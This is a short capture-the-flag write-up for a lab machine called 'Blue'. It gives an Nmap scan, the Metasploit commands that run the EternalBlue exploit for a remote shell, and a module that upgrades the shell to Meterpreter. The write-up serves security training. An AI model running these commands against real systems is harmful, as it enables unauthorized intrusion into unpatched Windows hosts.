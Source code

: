# Blue

This is the write-up for the challenge Blue.
It provides a server that has to be deployed and then the tasks can be done.

## Tasks

### Task 1 - Recon

As the name of the challenge suggests, we can assume that it is a Windows server that is vulnerable to **EternalBlue**.

The first thing to do is to scan the machine. The best method for this is using **Nmap** with some special parameters for more information:
```markdown
nmap -sC -sV -o nmap/blue.nmap [IP address]
```

### Task 2 - Gain Access

To exploit the **EternalBlue** vulnerability, we can use **Metasploit**:
```markdown
use exploit/windows/smb/ms17_010_eternalblue

set RHOSTS [IP address]

exploit
```

After running this exploit, it will spawn a command shell on the server.

### Task 3 - Escalate

To escalate this command shell to a **Meterpreter shell** we can background the session and use another module:
```markdown
use post/multi/manage/shell_to_meterpreter

set session [Session ID]

exploit
```
